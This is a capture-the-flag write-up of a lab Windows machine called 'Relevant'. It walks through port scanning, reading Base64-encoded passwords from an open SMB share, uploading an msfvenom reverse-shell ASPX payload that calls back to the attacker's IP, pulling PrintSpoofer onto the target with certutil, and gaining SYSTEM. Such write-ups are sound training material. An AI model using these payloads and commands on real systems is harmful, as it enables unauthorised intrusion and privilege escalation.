 ### Name: Relevant
### Ip: 10.10.28.224
### Difficulty: Medium

----------------------------------------------------------------

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

    - User.txt
    - Root.txt

Additionally, the client has provided the following scope allowances:

    - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
    - Locate and note all vulnerabilities found
    - Submit the flags discovered to the dashboard
    - Only the IP address assigned to your machine is in scope
    - Find and report ALL vulnerabilities (yes, there is more than one path to root)

--------------------------------------------------------------------------    

10524728b2b462e8d164efe4e67ed087.jpeg

### Enumeration

I'll begin enumerating this machine by scanning all TCP ports using Nmap:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -p- --min-rate 10000 10.10.28.224    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:03 CDT
Nmap scan report for 10.10.28.224
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds
```

Let's enumerate a bit deeper by also using the `-sC` and `-sV` flags to use default scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -sC -sV 10.10.28.224 -p 80,135,139,445,3389,49663
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:05 CDT
Nmap scan report for 10.10.28.224
Host is up (0.18s latency).

PORT      STATE SERVICE        VERSION
80/tcp    open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server?
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-06-27T18:56:40
|_Not valid after:  2023-12-27T18:56:40
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-28T19:07:20+00:00
|_ssl-date: 2023-06-28T19:07:59+00:00; 0s from scanner time.
49663/tcp open  http           Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h24m00s, deviation: 3h07m51s, median: 0s
| smb2-time: 
|   date: 2023-06-28T19:07:22
|_  start_date: 2023-06-28T18:57:35
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-28T12:07:21-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.02 seconds
```

Navigating to the site on port 80 we find an IIS default landing page:

landing_page.png

Before enumerating http let's take a look at the SMB shares to see if we can find anything interesting.

Using CrackMapExec we see that we have read and write access to the nt4wrksv share using the guest account with null for a password. Let's use SMBClient to further enumerate:

smb_passwords.png

Ok interesting, looks like we've found a couple passwords. This appears to be Base64, so lets try to decode these:

b64_passwds.png

So it appears we now have two sets of credentials:

```text
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
### Exploitation 

Before leaving SMB, I recall that we had both read and write permissions to the share. Let's try upload a reverse shell to see if we can get an easy win and get access to the box.

I'll create a reverse shell using msfvenom:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.61.45 LPORT=443 -a x64 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3420 bytes
```

And while still logged into the SMB share I can simply issue the `put` command to uplaod my shell.

`put shell.aspx`

I set up a NetCat listener and turned my attention to the browser to see where my shell may have been uploaded. 

I had no luck on port 80 at http://10.10.28.224/nt4wrksv/shell.aspx

shell_fail.png

But looking back over my nmap scans I noticed the box had another http port open. I was able to succesfully trigger my shell by navigating to http://10.10.28.224:49663/nt4wrksv/shell.aspx

Which called back to my nc listener and gave me a working shell:

first_shell.png

And from here I can grab the user.txt flag from Bob's desktop:

user_flag.png

Let's now turn our attention to escalating privileges to administrator!

### Privilege Escalation

Running `whoami /all` shows me that SeImpersonatePrivilege is enabled on the machine.

impersonate.png

Nice! This should make for an easy privilege escalation. Because this is a Windows 10 box, let's try using PrintSpoofer.exe to escalate to the Administrator user.

Firstly I'll set up a Python webserver in the directory I keep PrinteSpoofer in:

And then afterwards I'll use CertUtil to donwload the file onto the target:

```text
C:\Users\Bob\Desktop>certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

We can also verify a code 200 from the Python server:

```text
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.28.224 - - [28/Jun/2023 14:45:41] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
10.10.28.224 - - [28/Jun/2023 14:45:44] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
```

Once PrintSpoofer is on the target I simply execute:

```text
C:\Users\Bob\Desktop>PrintSpoofer.exe -i -c cmd
```
And I can verify that the exploit worked and am now nt authoirty\system on the machine:

system.png

All that's left to do now is to grab the root.txt flag in the Administrator's Desktop:

root_flag.png

And that's that! Thanks for following along!

-Ryan

------------------------------------------------------------------
